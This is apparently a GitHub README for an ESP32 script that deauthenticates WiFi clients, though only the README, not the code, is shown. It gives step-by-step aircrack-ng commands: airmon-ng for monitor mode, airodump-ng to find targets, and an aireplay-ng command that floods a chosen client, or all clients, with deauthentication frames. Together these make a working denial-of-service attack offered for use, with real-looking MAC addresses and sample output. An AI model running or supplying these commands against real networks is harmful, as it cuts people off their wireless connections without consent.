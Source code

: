 # ESP32-Deauthroize-clients-script

The code will deauth a single client on a wifi net.

Replace SSID and password with you own. Also change the MAC addresses.

You will need to find the BSSID and the MAC of your client.

Note what mode your wlan is in:

iwconfig

Ie.:
wlan0     IEEE 802.11  ESSID:"INDIGO"  
          Mode:Managed  Frequency:5.24 GHz  Access Point: 78:D2:94:44:D2:2C   
          Bit Rate=200 Mb/s   Tx-Power=31 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=58/70  Signal level=-52 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

To put wifi nic into monitor mode:
sudo airmon-ng start wlan0

To show who is on the network:
sudo airodump-ng wlan0mon

To monitor a specific client:
-d is destination target 
-c is channel number (found from using the airdump-ng command above)  
sudo airodump-ng -d 7E:D2:94:44:BA:28 -c 8 wlan0mon

To deuth a client :
-0 means deauth
-a and mac is teh AP
-c and mac is the client we want to deauth (leave this out to kick all clients off

sudo aireplay-ng -0 0 -a 7E:D2:94:44:BA:28 -c 44:4f:8E:9A:FF:8A wlan0mon

